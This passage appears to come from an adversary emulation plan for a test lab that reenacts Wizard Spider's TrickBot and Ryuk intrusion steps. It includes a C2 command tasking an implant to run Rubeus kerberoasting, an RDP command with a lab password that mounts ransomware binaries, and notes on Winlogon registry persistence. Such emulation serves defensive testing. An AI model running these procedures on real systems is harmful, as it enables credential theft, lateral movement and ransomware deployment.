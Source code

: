 ```bash
./evalsC2client.py --set-task TrickBot-Implant "rubeus.exe kerberoast /domain:oz.local"
```

### :microscope: Cited Intelligence

* https://us-cert.cisa.gov/ncas/alerts/aa20-302a
* https://www.fireeye.com/blog/threat-research/2020/10/kegtap-and-singlemalt-with-a-ransomware-chaser.html
* https://thedfirreport.com/2020/10/08/ryuks-return/
* https://thedfirreport.com/2020/11/05/ryuk-speed-run-2-hours-to-ransom/

<br>

## Step 7 - Lateral Movement to DC 

:microphone: `Voice Track:`

In step 7 Wizard Spider RDP's into the domain controller as user vfleming.

Wizard Spider dowloads a TrickBot variant to the DC using PowerShell's `Invoke-WebRequest` command.

Wizard Spider then establishes registry persistence to execute Trickbot when vflemming logs in.

Lastly, Wizard Spider enumerates the domain using the `adfind` utility.

```
Compromised user info:

User:	vfleming@oz.local

System: 10.0.0.4 / wizard

File Write (Tribot EXE variant): %AppData%\uxtheme.exe

Registry Write:  HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\

Key: Userinit

Value: Userinit.exe, $env:AppData\uxtheme.exe
```

---

### :biohazard: Procedures

:warning: Go back to your Toto RDP session and sign out: `Right-click Windows icon -> Shut down or sign out -> Sign out`

Rename your RDP terminal to "RDP to wizard"

RDP to wizard / 10.0.0.4.

```bash
# Wizard Spider has used RDP for lateral movement.[5][2][8]

xfreerdp +clipboard /u:oz\\vfleming /p:"q27VYN8xflPcYumbLMit" /v:10.0.0.4 /drive:X,wizard_spider/Resources/Ryuk/bin
```
